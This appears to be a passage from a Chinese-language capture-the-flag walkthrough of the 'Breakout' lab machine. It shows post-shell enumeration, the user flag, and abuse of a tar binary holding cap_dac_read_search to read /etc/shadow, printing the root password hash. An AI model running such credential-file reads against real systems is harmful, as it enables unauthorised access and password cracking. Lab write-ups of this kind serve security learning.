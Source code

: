 2. 看到底下有一个我i们感兴趣的`Command shell` ，点击后进入命令行了
    
    ![image.png](image%2069.png)
    

## 提权

1. 查看权限（这里的shell比反弹的好用，就没反弹）
    
    ```python
    [cyber@breakout ~]$ whoami
    cyber
    [cyber@breakout ~]$ id
    uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
    [cyber@breakout ~]$ uname -a
    Linux breakout 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64 GNU/Linux
    ```
    
2. 寻找敏感文件
    - 当前家目录文件夹下存在`tar`和`user.txt` 文件
        
        ```python
        # user.txt
        [cyber@breakout ~]$ cat user.txt
        3mp!r3{You_Manage_To_Break_To_My_Secure_Access}
        ```
        
        `tar`是一个可执行文件，我们检测suid 和capability，通过**`getcap`**命令发现它有**`cap_dac_read_search=ep`**，因此它可以读取任意文件（利用该tar 打包再解压就可以查看没有权限查看的文件内容）
        
        ```python
        [cyber@breakout ~]$ ls -al | grep tar
        -rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
        [cyber@breakout ~]$ getcap tar
        tar cap_dac_read_search=ep
        ```
        
3. 这样我们就可以使用`tar`来读取隐私文件了
    - 读取`shadow`文件，注意：使用`tar`必须是家目录下的`tar`
        
        ```python
        [cyber@breakout ~]$ ./tar -cvf shadow.tar /etc/shadow
        ./tar: Removing leading `/' from member names
        /etc/shadow
        [cyber@breakout ~]$ ./tar -xvf shadow.tar
        etc/shadow
        [cyber@breakout ~]$ cat etc/shadow
        root:$y$j9T$M3BDdkxYOlVM6ECoqwUFs.$Wyz40CNLlZCFN6Xltv9AAZAJY5S3aDvLXp0tmJKlk6A:18919:0:99999:7:::
        daemon:*:18919:0:99999:7:::
        bin:*:18919:0:99999:7:::
        sys:*:18919:0:99999:7:::
        sync:*:18919:0:99999:7:::
        games:*:18919:0:99999:7:::
        man:*:18919:0:99999:7:::
        lp:*:18919:0:99999:7:::
        mail:*:18919:0:99999:7:::
        news:*:18919:0:99999:7:::
        uucp:*:18919:0:99999:7:::
        proxy:*:18919:0:99999:7:::
        www-data:*:18919:0:99999:7:::